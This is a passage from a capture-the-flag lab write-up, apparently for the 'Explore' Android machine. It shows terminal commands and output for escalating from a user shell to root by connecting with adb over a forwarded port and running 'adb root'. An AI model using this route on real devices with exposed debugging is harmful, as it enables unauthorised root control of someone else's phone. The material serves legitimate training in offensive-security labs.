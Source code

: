 With the port now listening on my local machine, I installed `adb` and began to search for a path to `root` using it. On the [official Android documentation](https://developer.android.com/studio/command-line/adb), they thoroughly describe much of the functionality and the many powerful features associated with the tool. However, there's no clear privilege escalation vector using just what is described there. However, what is not as well documented (on the Android Developer site, anyhow) is that there is built-in functionality for restarting the `adb` daemon as `root`, which would allow any user with access to the debugger to spawn a `root` shell. Worth noting that this will only work if root access for adb is enabled in the developer settings. With that in place, going from `kristi` to `root` requires only a few simple commands. First, I ran the officially documented commands to demonstrate that those alone would not allow one to get a `root` shell:

```shell
┌──(kali@kali)-[~/htb/explore]
└─$ adb connect 127.0.0.1:5555
connected to 127.0.0.1:5555

┌──(kali@kali)-[~/htb/explore]
└─$ adb shell
x86_64:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
x86_64:/ $ exit
```

After that, I restarted the daemon as `root` and ran the same commands again:

```shell
┌──(kali@kali)-[~/htb/explore]
└─$ adb root
restarting adbd as root

┌──(kali@kali)-[~/htb/explore]
└─$ adb shell
x86_64:/ # id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:su:s0
x86_64:/sdcard/Android/data # find / -name root.txt 2> /dev/null
/data/root.txt
1|x86_64:/sdcard/Android/data # 
```